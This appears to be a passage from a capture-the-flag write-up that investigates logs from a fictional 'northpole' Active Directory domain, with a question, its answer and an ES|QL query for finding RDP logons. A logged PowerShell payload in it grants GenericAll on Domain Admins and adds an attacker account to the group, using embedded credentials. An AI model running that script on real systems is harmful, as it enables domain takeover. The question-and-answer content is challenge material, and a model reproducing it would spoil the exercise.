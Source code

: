 <134>1 2024-09-16T11:33:12-04:00 SleighRider.northpole.local WindowsEvent - - - {"ContextInfo": " Severity = Informational\r\n Host Name = Default Host\r\n Host Version = 5.1.19041.1\r\n Host ID = 4571e982-1bfd-4d83-97f2-ce85d3e41b9d\r\n Host Application = powershell\r\n Engine Version = 5.1.19041.1\r\n Runspace ID = dd0ca0e4-fdfe-49be-ada7-2931df92cca6\r\n Pipeline ID = 1\r\n Command Name = Set-StrictMode\r\n Command Type = Cmdlet\r\n Script Name = \r\n Command Path = \r\n Sequence Number = 30\r\n User = NORTHPOLE\\elf_user02\r\n Connected User = \r\n Shell ID = Microsoft.PowerShell\r\n", "UserData": "", "Payload": "Add-Type -AssemblyName System.DirectoryServices\n$ldapConnString = \"LDAP://CN=Domain Admins,CN=Users,DC=northpole,DC=local\"\n$username = \"nutcrakr\"\n$pswd = 'fR0s3nF1@k3_s'\n$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'\n$propGUID = [guid]'00000000-0000-0000-0000-000000000000'\n$IdentityReference = (New-Object System.Security.Principal.NTAccount(\"northpole.local\\$username\")).Translate([System.Security.Principal.SecurityIdentifier])\n$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None\n$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] \"GenericAll\"), ([System.Security.AccessControl.AccessControlType] \"Allow\"), $propGUID, $inheritanceType, $nullGUID\n$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $pswd\n$secOptions = $domainDirEntry.get_Options()\n$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl\n$domainDirEntry.RefreshCache()\n$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)\n$domainDirEntry.CommitChanges()\n$domainDirEntry.dispose()\n$ldapConnString = \"LDAP://CN=Domain Admins,CN=Users,DC=northpole,DC=local\"\n$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $pswd\n$user = New-Object System.Security.Principal.NTAccount(\"northpole.local\\$username\")\n$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])\n$b=New-Object byte[] $sid.BinaryLength\n$sid.GetBinaryForm($b,0)\n$hexSID=[BitConverter]::ToString($b).Replace('-','')\n$domainDirEntry.Add(\"LDAP://<SID=$hexSID>\")\n$domainDirEntry.CommitChanges()\n$domainDirEntry.dispose()", "Provider_Name": "Microsoft-Windows-PowerShell", "Provider_Guid": "{a0c1853b-5c40-4b15-8766-3cf1c58f985a}", "EventID": 4103,
...
```

Q19: The attacker then used remote desktop to remotely access one of our domain computers. What is the full ISO8601 compliant UTC EventTime when they established this connection?  
Answer: 2024-09-16T15:35:57.000Z

Such events are captured in the `WindowsEvent` log and the `event.LogonType` field can be used as a filter. Remote connections have a `LogonType` value of 10:  
`FROM .ds-logs-* | WHERE event_source == "WindowsEvent" AND event.LogonType == 10`

3 events are filtered out and the earliest one has a timestamp value of `"2024-09-16T15:35:57.000Z`:  
```
{ "@timestamp": "2024-09-16T15:35:57.000Z", "@version": "1", "data_stream.dataset": "generic", "data_stream.namespace": "default", "data_stream.type": "logs", "event.ActivityID": "{D72392BD-843F-0000-1F93-23D73F84DA01}",
...
"event.LogonType": 10, "event.MoreDetails": "Group membership information.\nThe subject fields indicate the account on the local system which requested the logon. This is most commonly a service such as the Server service, or a local process such as Winlogon.exe or Services.exe.\nThe logon type field indicates the kind of logon that occurred. The most common types are 2 (interactive) and 3 (network).\nThe New Logon fields indicate the account for whom the new logon was created, i.e. the account that was logged on.\nThis event is generated when the Audit Group Membership subcategory is configured. The Logon ID field can be used to correlate this event with the corresponding user logon event as well as to any other security audit events generated during this logon session.", "event.NetworkInformation_SourceNetworkAddress": null,
...
"event.SubjectUserName": "DC01$", "event.SubjectUserSid": "S-1-5-18", "event.Subject_AccountDomain": "NORTHPOLE", "event.Subject_AccountName": "DC01$", "event.Subject_LogonID": "0x3E7", "event.Subject_SecurityID": "S-1-5-18", "event.TargetDomainName": "NORTHPOLE", "event.TargetLinkedLogonId": null, "event.TargetLogonId": "0xdd425e", "event.TargetOutboundDomainName": null, "event.TargetOutboundUserName": null, "event.TargetUserName": "nutcrakr", "event.TargetUserSid": "S-1-5-21-3699322559-1991583901-1175093138-1112", "event.Task": 12554, "event.ThreadID": 1124, "event.TransmittedServices": null, "event.Version": 0, "event.VirtualAccount": null, "event.WorkstationName": null, "event_source": "WindowsEvent", "host.ip": "172.18.0.5", "hostname": "dc01.northpole.local", "log.syslog.facility.code": 1, "log.syslog.facility.name": "user-level", "log.syslog.facility.name.text": "user-level", "log.syslog.severity.code": 5, "log.syslog.severity.name": "notice", "log.syslog.severity.name.text": "notice", "tags": "match", "type": "syslog" }